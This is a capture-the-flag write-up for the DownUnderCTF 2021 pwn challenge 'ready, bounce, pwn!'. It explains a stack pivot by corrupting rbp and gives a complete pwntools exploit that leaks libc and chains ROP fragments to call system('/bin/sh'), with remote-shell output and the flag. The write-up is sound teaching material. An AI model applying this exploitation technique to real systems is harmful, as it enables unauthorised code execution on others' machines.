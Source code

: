 # DownUnderCTF 2021

## ready, bounce, pwn! 

> 436
> 
> Let's play with `rbp`.
> 
> Author: joseph#8210
>
> `nc pwn-2021.duc.tf 31910`
>
> [`rbp`](rbp) [`libc.so.6`](libc.so.6)

Tags: _pwn_ _x86-64_ _stack-pivot_ _rop_ _remote-shell_


## Summary

The task description betrays the nature of this challenge; we're going to stack pivot by corrupting `rbp`.

This challenge has a constrained buffer for our ROP chain, so some creativity will be required.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Partial RELRO = GOT overwrite; No PIE = Easy ROP; No canary = Easy BOF.


### Decompile with Ghidra   

```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
  undefined local_28 [32];
  
  init(param_1);
  printf("Hi there! What is your name? ");
  read(0,local_28,0x18);
  puts("That is an interesting name.");
  printf("Do you have a favourite number? ");
  read_long();
  return 0;
}
```

Nothing interesting here, however if you look at the disassembly you see that whatever is returned (`rax`) from `read_long()` is added to `rbp` (`add rbp,rax`):

```
  401239:	e8 6b ff ff ff       	call   4011a9 <read_long>
  40123e:	48 01 c5             	add    rbp,rax
  401241:	b8 00 00 00 00       	mov    eax,0x0
  401246:	c9                   	leave
  401247:	c3                   	ret
```

IOW, a free stack pivot.  Recall that `leave` is really `mov rsp,rbp; pop rbp`.  On `leave`, `rsp` will be `rbp` + whatever we added to it _less 8 (see below)_.

Clearly we'd like to pivot to the top of our buffer for a ROP chain:

```
0x00007fffffffe350│+0x0000: "AAAAAAAA"	 ← $rsp
0x00007fffffffe358│+0x0008: "BBBBBBBB"
0x00007fffffffe360│+0x0010: "CCCCCCCC"
0x00007fffffffe368│+0x0018: 0x0000000000000000
0x00007fffffffe370│+0x0020: 0x0000000000000000   ← $rbp
```

`read(0,local_28,0x18);` will `read` `24` (`0x18`) bytes limiting our ROP chain to (3) 64-bit gadgets.  Above I entered `AAAAAAAABBBBBBBBCCCCCCCC` into `read` as gadget placeholders.

`rbp` is currently `0x00007fffffffe370`, to move `rsp` to the start of our buffer we'll need to _add_ `-0x20` (`-32`), however recall what I stated about `leave` (above); right after the `mov rsp,rbp` is a `pop rbp`, so we'll need an extra `-8` bytes _added_.  In short, `-40` entered to `read_long` will move `rsp` to our buffer and start our ROP chain.

The classic ROP chain:

```
p64(pop_rdi)
p64(binary.got.puts)
p64(binary.plt.puts)
p64(binary.sym.main)
```

_Catch leak, then..._

```
p64(pop_rdi)
p64(libc.search(b'/bin/sh').__next__())
p64(libc.sym.system)
```

To leak libc, loop back to main, then get a shell isn't going to fit in `24` (`0x18`) bytes, however there's other gadgets we can use to breakup our ROP chain into smaller chains we can then chain together (details in the Exploit section below).


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./rbp')

if args.REMOTE:
    p = remote('pwn-2021.duc.tf', 31910)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
```

Above, the standard pwntools header.


```python
pop_rdi = binary.search(asm('pop rdi; ret;')).__next__()
pop2 = binary.search(asm('pop r14; pop r15; ret;')).__next__()
```

We'll need a couple of gadgets.  Since there's no PIE there's no need to leak a base process address; we can just search the binary for the gadgets we need.  The first `pop_rdi` is standard fare ROP chain, then second comes from `__libc_csu_init`; there's a variable number of `pop`s that we can use to move `rsp` down stack.  This is how we'll continue on with our fragmented ROP chain.


```python
payload  = b''
payload += p64(binary.sym.main)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.main)

p.sendafter(b'name? ', payload)
p.sendafter(b'number? ', b'-40')
```

The first pass may look a bit counter intuitive, our code will immediately loop back to `main`, however `main` will create a new stack frame leaving this dirty dirty frame behind.

```python
payload  = b''
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(pop2)

p.sendafter(b'name? ', payload)
p.sendafter(b'number? ', b'-40')

libc.address = u64(p.recv(6) + b'\0\0') - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

The second pass starts to look like a classic ROP chain.  That `pop2` will move `rsp` down stack to the `binary.plt.puts` gadget above, then `main`, and we get to start over again, however we now have a libc leak.

Here what the stack looks like just before the end of `main` (just before the stack pivot to our 2nd ROP chain):

```
0x00007ffd6a261cd0│+0x0000: 0x00000000004012b3  →  <__libc_csu_init+99> pop rdi	 ← $rsp
0x00007ffd6a261cd8│+0x0008: 0x0000000000404018  →  0x00007f07996a55a0  →  <puts+0> endbr64
0x00007ffd6a261ce0│+0x0010: 0x00000000004012b0  →  <__libc_csu_init+96> pop r14
0x00007ffd6a261ce8│+0x0018: 0x000000000040123e  →  <main+105> add rbp, rax
0x00007ffd6a261cf0│+0x0020: 0x000000000040123e  →  <main+105> add rbp, rax
0x00007ffd6a261cf8│+0x0028: 0x0000000000401030  →  <puts@plt+0> jmp QWORD PTR [rip+0x2fe2]        # 0x404018 <puts@got.plt>
0x00007ffd6a261d00│+0x0030: 0x00000000004011d5  →  <main+0> push rbp
```

Observe that `pop rdi` will be called on `main` `ret`, popping the location of `puts` into `rdi`, next is the `pop r14` from our `pop2` gadget curtesy of `__libc_csu_init`, that `pop2` gadget will pop off the next to stack lines moving `rsp` to `puts@plt`, effectively calling `puts` to leak libc.  Lastly it's back to `main`.

```python
payload  = b''
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendafter(b'name? ', payload)
p.sendafter(b'number? ', b'-40')
p.interactive()
```

Third pass.  We have the location of libc, so just get a shell.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2021/rbp/rbp'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn-2021.duc.tf on port 31910: Done
[*] '/pwd/datajerk/downunderctf2021/rbp/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fdfab89d000
[*] Switching to interactive mode
$ cat flag.txt
DUCTF{n0_0verfl0w?_n0_pr0bl3m!}
```
